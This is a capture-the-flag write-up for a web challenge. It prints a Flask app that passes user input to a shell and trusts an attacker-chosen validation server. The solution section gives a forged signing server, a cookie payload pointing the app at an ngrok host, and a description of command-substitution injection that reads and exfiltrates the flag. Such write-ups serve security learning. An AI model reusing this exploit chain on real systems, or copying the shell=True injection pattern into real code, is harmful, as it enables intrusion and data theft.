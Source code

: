 # Feature Unlocked
## Description
> The world's coolest app has a brand new feature! Too bad it's not released until after the CTF..
>
> https://feature-unlocked-web-challs.csc.tf/

## Challenge Overview
This challenge wants us to access the feature page but it will redirect back to home page until the timer runs out (which is after 7 days)

![image](https://github.com/user-attachments/assets/76e98010-5efd-49f4-971d-64520971aeb4)
<details> 
  <summary> Source code for app.py</summary>
  
```py
import subprocess
import base64
import json
import time
import requests
import os
from flask import Flask, request, render_template, make_response, redirect, url_for
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
from itsdangerous import URLSafeTimedSerializer

app = Flask(__name__)
app.secret_key = os.urandom(16)
serializer = URLSafeTimedSerializer(app.secret_key)

DEFAULT_VALIDATION_SERVER = 'http://127.0.0.1:1338'
NEW_FEATURE_RELEASE = int(time.time()) + 7 * 24 * 60 * 60
DEFAULT_PREFERENCES = base64.b64encode(json.dumps({
    'theme': 'light',
    'language': 'en'
}).encode()).decode()


def get_preferences():
    preferences = request.cookies.get('preferences')
    if not preferences:
        response = make_response(render_template(
            'index.html', new_feature=False))
        response.set_cookie('preferences', DEFAULT_PREFERENCES)
        return json.loads(base64.b64decode(DEFAULT_PREFERENCES)), response
    return json.loads(base64.b64decode(preferences)), None


@app.route('/')
def index():
    _, response = get_preferences()
    return response if response else render_template('index.html', new_feature=False)


@app.route('/release')
def release():
    token = request.cookies.get('access_token')
    if token:
        try:
            data = serializer.loads(token)
            if data == 'access_granted':
                return redirect(url_for('feature'))
        except Exception as e:
            print(f"Token validation error: {e}")

    validation_server = DEFAULT_VALIDATION_SERVER
    if request.args.get('debug') == 'true':
        preferences, _ = get_preferences()
        validation_server = preferences.get(
            'validation_server', DEFAULT_VALIDATION_SERVER)

    if validate_server(validation_server):
        response = make_response(render_template(
            'release.html', feature_unlocked=True))
        token = serializer.dumps('access_granted')
        response.set_cookie('access_token', token, httponly=True, secure=True)
        return response

    return render_template('release.html', feature_unlocked=False, release_timestamp=NEW_FEATURE_RELEASE)


@app.route('/feature', methods=['GET', 'POST'])
def feature():
    token = request.cookies.get('access_token')
    if not token:
        return redirect(url_for('index'))

    try:
        data = serializer.loads(token)
        if data != 'access_granted':
            return redirect(url_for('index'))

        if request.method == 'POST':
            to_process = request.form.get('text')
            try:
                word_count = f"echo {to_process} | wc -w"
                output = subprocess.check_output(
                    word_count, shell=True, text=True)
            except subprocess.CalledProcessError as e:
                output = f"Error: {e}"
            return render_template('feature.html', output=output)

        return render_template('feature.html')
    except Exception as e:
        print(f"Error: {e}")
        return redirect(url_for('index'))


def get_pubkey(validation_server):
    try:
        response = requests.get(f"{validation_server}/pubkey")
        response.raise_for_status()
        return ECC.import_key(response.text)
    except requests.RequestException as e:
        raise Exception(
            f"Error connecting to validation server for public key: {e}")


def validate_access(validation_server):
    pubkey = get_pubkey(validation_server)
    try:
        response = requests.get(validation_server)
        response.raise_for_status()
        data = response.json()
        date = data['date'].encode('utf-8')
        signature = bytes.fromhex(data['signature'])
        verifier = DSS.new(pubkey, 'fips-186-3')
        verifier.verify(SHA256.new(date), signature)
        return int(date)
    except requests.RequestException as e:
        raise Exception(f"Error validating access: {e}")


def validate_server(validation_server):
    try:
        date = validate_access(validation_server)
        return date >= NEW_FEATURE_RELEASE
    except Exception as e:
        print(f"Error: {e}")
    return False


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

</details>

### Routes:

- `/`

    - This route serves the homepage. If `preferences` cookie aren't set, it returns a response with the default `preferences` cookie.
      
- `/release`

    - It checks for an `access_token` in the cookies, which, if valid, redirects the user to the feature page.
    - If the token is not valid, the route attempts to validate the server. If successful, the user is given an `access_token`, unlocking the feature.
    - This route also accept `?debug` parameter, where the user can include their own validation server inside `preferences` cookie.
- `/feature`

    - This route provides access to the hidden feature, which involves processing user input through a shell command (`wc -w`) to count words.
    - The route ensures that only users with a valid `access_token` can access it.

## Solution
### Access to `/feature` page

- In order to access `/feature` page, we need to setup our own server that can generate public/private key pair and return date as 7 days after the `NEW_FEATURE_RELEASE`.

```py
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')


@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return pubkey, 200, {'Content-Type': 'text/plain; charset=utf-8'}


@app.route('/', methods=['GET'])
def index():
    # Set the time to 7 days from now
    future_time = int(time.time()) + 7 * 24 * 60 * 60
    date = str(future_time)

    h = SHA256.new(date.encode('utf-8'))
    signature = DSS.new(key, 'fips-186-3').sign(h)

    return jsonify({
        'date': date,
        'signature': signature.hex()
    })


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1338)
```

- Start the server in the terminal and run `ngrok` to expose our local server to the internet. 

- Send the `preferences` cookie with `validation_server` as our `ngrok` URL. Make sure to encode it to base64.
```
{"theme": "light", "language": "en", "validation_server": "https://33c9-2001-e68-5419-58e7-a0e7-ba44-62ec-b33d.ngrok-free.app"}
```
- Make sure `debug` GET parameter link `/release` is set to `True`.
- Check our `ngrok` server, we can see requests from the server.

We finally can access to `/feature` page.

![image](https://github.com/user-attachments/assets/71917899-cdbe-4b50-8922-b4d5f7badd10)

### Command Injection
The feature page can count how many words are inside our input by using `echo` and `wc -w`. When I put `;` in the input, it gives us an error. 

![image](https://github.com/user-attachments/assets/f3ef16dd-b873-4ab8-afd8-7d4c7b0fc65c)

In order to read the flag.txt, we can use `$(...)` (Command substitution syntax)

> Command substitution is a shell feature that allows the output of a command to be used as an argument in another command.

![image](https://github.com/user-attachments/assets/8ee8a4c4-a026-493b-841c-2d1228ceefa3)

Another way is to send the flag back to our server as base64. We can use `Webhook` or `ngrok` as our receiving server.

![image](https://github.com/user-attachments/assets/59c43ffc-86f2-425e-b086-1ce9517260d3)

We get the encoded flag in our Webhook logs. 
![image](https://github.com/user-attachments/assets/c727dafd-4b19-4208-a87f-8fdd685ad873)
```
Q1NDVEZ7ZDFkX3kwdV83MW0zXzdyNHYzbF9mMHJfN2gxNV9mbDQ2PyF9
```

## Flag
```
CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}
```
